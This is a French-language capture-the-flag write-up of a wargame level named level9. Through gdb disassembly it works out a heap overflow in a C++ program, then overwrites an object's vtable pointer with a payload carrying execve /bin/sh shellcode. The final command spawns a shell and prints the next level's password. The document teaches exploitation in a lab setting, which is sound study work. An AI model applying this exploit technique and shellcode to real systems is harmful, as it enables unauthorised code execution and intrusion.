 # Level9

On observe un exécutable à la racine : `level8`

```bash
$ ./level9

$ ./level9 "Hello World"

$ ./level9 `python -c 'print "A"*200'`
Segmentation fault (core dumped)
```

On cherche donc à comprendre ce que fait l'exécutable

```bash
$ gdb level9 -q
Reading symbols from /home/user/level9/level9...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:      push   ebp
   0x080485f5 <+1>:      mov    ebp,esp
   0x080485f7 <+3>:      push   ebx
   0x080485f8 <+4>:      and    esp,0xfffffff0
   0x080485fb <+7>:      sub    esp,0x20
   0x080485fe <+10>:     cmp    DWORD PTR [ebp+0x8],0x1
   0x08048602 <+14>:     jg     0x8048610 <main+28>
   0x08048604 <+16>:     mov    DWORD PTR [esp],0x1
   0x0804860b <+23>:     call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:     mov    DWORD PTR [esp],0x6c
   0x08048617 <+35>:     call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:     mov    ebx,eax
   0x0804861e <+42>:     mov    DWORD PTR [esp+0x4],0x5
   0x08048626 <+50>:     mov    DWORD PTR [esp],ebx
   0x08048629 <+53>:     call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:     mov    DWORD PTR [esp+0x1c],ebx
   0x08048632 <+62>:     mov    DWORD PTR [esp],0x6c
   0x08048639 <+69>:     call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:     mov    ebx,eax
   0x08048640 <+76>:     mov    DWORD PTR [esp+0x4],0x6
   0x08048648 <+84>:     mov    DWORD PTR [esp],ebx
   0x0804864b <+87>:     call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:     mov    DWORD PTR [esp+0x18],ebx
   0x08048654 <+96>:     mov    eax,DWORD PTR [esp+0x1c]
   0x08048658 <+100>:    mov    DWORD PTR [esp+0x14],eax
   0x0804865c <+104>:    mov    eax,DWORD PTR [esp+0x18]
   0x08048660 <+108>:    mov    DWORD PTR [esp+0x10],eax
   0x08048664 <+112>:    mov    eax,DWORD PTR [ebp+0xc]
   0x08048667 <+115>:    add    eax,0x4
   0x0804866a <+118>:    mov    eax,DWORD PTR [eax]
   0x0804866c <+120>:    mov    DWORD PTR [esp+0x4],eax
   0x08048670 <+124>:    mov    eax,DWORD PTR [esp+0x14]
   0x08048674 <+128>:    mov    DWORD PTR [esp],eax
   0x08048677 <+131>:    call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:    mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>:    mov    eax,DWORD PTR [eax]
   0x08048682 <+142>:    mov    edx,DWORD PTR [eax]
   0x08048684 <+144>:    mov    eax,DWORD PTR [esp+0x14]
   0x08048688 <+148>:    mov    DWORD PTR [esp+0x4],eax
   0x0804868c <+152>:    mov    eax,DWORD PTR [esp+0x10]
   0x08048690 <+156>:    mov    DWORD PTR [esp],eax
   0x08048693 <+159>:    call   edx
   0x08048695 <+161>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x08048698 <+164>:    leave
   0x08048699 <+165>:    ret
End of assembler dump.
(gdb) disas _ZN1NC2Ei
Dump of assembler code for function _ZN1NC2Ei:
   0x080486f6 <+0>:     push   ebp
   0x080486f7 <+1>:     mov    ebp,esp
   0x080486f9 <+3>:     mov    eax,DWORD PTR [ebp+0x8]
   0x080486fc <+6>:     mov    DWORD PTR [eax],0x8048848
   0x08048702 <+12>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048705 <+15>:    mov    edx,DWORD PTR [ebp+0xc]
   0x08048708 <+18>:    mov    DWORD PTR [eax+0x68],edx
   0x0804870b <+21>:    pop    ebp
   0x0804870c <+22>:    ret
End of assembler dump.
(gdb) disas _ZN1N13setAnnotationEPc
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:     push   ebp
   0x0804870f <+1>:     mov    ebp,esp
   0x08048711 <+3>:     sub    esp,0x18
   0x08048714 <+6>:     mov    eax,DWORD PTR [ebp+0xc]
   0x08048717 <+9>:     mov    DWORD PTR [esp],eax
   0x0804871a <+12>:    call   0x8048520 <strlen@plt>
   0x0804871f <+17>:    mov    edx,DWORD PTR [ebp+0x8]
   0x08048722 <+20>:    add    edx,0x4
   0x08048725 <+23>:    mov    DWORD PTR [esp+0x8],eax
   0x08048729 <+27>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804872c <+30>:    mov    DWORD PTR [esp+0x4],eax
   0x08048730 <+34>:    mov    DWORD PTR [esp],edx
   0x08048733 <+37>:    call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:    leave
   0x08048739 <+43>:    ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir une idée plus claire de `level8`

```bash
$ scp -P 4242 -r level9@192.168.56.102:/home/user/level9/level9 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level9
```

_résultat sauvegardé dans [source.md](source.md)_

```bash
$ ./level9 `python -c 'print "A"*108'`

$ ./level9 `python -c 'print "A"*109'`
Segmentation fault (core dumped)
```

Nous avons assez de place pour mettre un `shellcode`.
Nous partons dans cette direction dans un premier temps.

Nous commencons par regarder où sont stocké les deux objects créé

```gdb
(gdb) break *main+40
Breakpoint 1 at 0x804861c
(gdb) break *main+74
Breakpoint 2 at 0x804863e
(gdb) run `python -c 'print "\x90"*108'`
Starting program: /home/user/level9/level9 `python -c 'print "\x90"*108'`

Breakpoint 1, 0x0804861c in main ()
(gdb) i r eax
eax            0x804a008    134520840
(gdb) c
Continuing.

Breakpoint 2, 0x0804863e in main ()
(gdb) i r eax
eax            0x804a078    134520952
```

Entre les deux adresse, nous avons: <code>0x804a078 - 0x804a008 = 70<sub>16</sub> = 112<sub>10</sub></code> octets a notre disposition. De plus, nous pouvons constater que eax est déréferencé 2 fois

```bash
   0x0804867c <+136>:    mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>:    mov    eax,DWORD PTR [eax]
   0x08048682 <+142>:    mov    edx,DWORD PTR [eax]
```

Notre parametre aura la forme: `python -c 'print "StartAddr+0x4" + "StartAddr+0x8" + "\x90"*I + "shellcode" + "StartAddr"`

On peut déjà remplacer `StartAddr` puis retirer StartAddr de `112 octets`, cela nous donne:

`python -c 'print "\x90"*108 + "\x0c\xa0\x04\x08"`

puis remplacer `StartAddr+0x4` et `StartAddr+0x8`.

`python -c 'print "\x10\xa0\x04\x08\x14\xa0\x04\x08" + "\x90"*100 + "\x0c\xa0\x04\x08"'`

il nous reste `100 octets` de disponible, plus qu'à mettre le shellcode et on essaye

```shell
level9:$ ./level9 `python -c 'print "\x10\xa0\x04\x08\x14\xa0\x04\x08" + "\x90"*55 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x0c\xa0\x04\x08"'`
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
Ctrl+D
```
